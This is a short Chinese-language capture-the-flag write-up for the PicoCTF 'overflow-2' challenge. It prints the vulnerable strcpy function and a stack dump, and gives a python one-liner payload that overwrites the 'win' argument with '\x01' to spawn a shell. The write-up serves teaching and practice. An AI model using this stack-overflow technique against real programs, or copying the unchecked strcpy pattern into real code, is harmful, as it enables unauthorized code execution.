 ```yaml
---
title: 2013PicoCTF overflow-2
date: 2019-04-18 23:38:22
categories: Pwn
---
```

# Write-Up
```

void vuln(int win, char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &win);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
```

从中我们可以看到，win是函数的参数，从输出中我们可以发现

>➜  overflow2 ./overflow2 $(python -c "print('a'*80)")                                                                          
Stack dump:
0xffd62b68: 0x000003e8
0xffd62b64: 0xffd642f3 (second argument)
0xffd62b60: 0x00000000 (first argument)    ←这里就是win
0xffd62b5c: 0x61616161 (saved eip)
0xffd62b58: 0x61616161 (saved ebp)
0xffd62b54: 0x61616161
0xffd62b50: 0x61616161
0xffd62b4c: 0x61616161
0xffd62b48: 0x61616161
0xffd62b44: 0x61616161
0xffd62b40: 0x61616161
0xffd62b3c: 0x61616161
0xffd62b38: 0x61616161
0xffd62b34: 0x61616161
0xffd62b30: 0x61616161
0xffd62b2c: 0x61616161
0xffd62b28: 0x61616161
0xffd62b24: 0x61616161
0xffd62b20: 0x61616161
0xffd62b1c: 0x61616161
0xffd62b18: 0x61616161
0xffd62b14: 0x61616161
0xffd62b10: 0x61616161 (beginning of buffer)
win = 0
Sorry, you lose.

因此覆盖到这个地方就好啦

>'a'*80+'\x01'

再次利用python

```
➜  overflow2 ./overflow2 $(python -c "print('a'*80+'\x01')")
```
getshell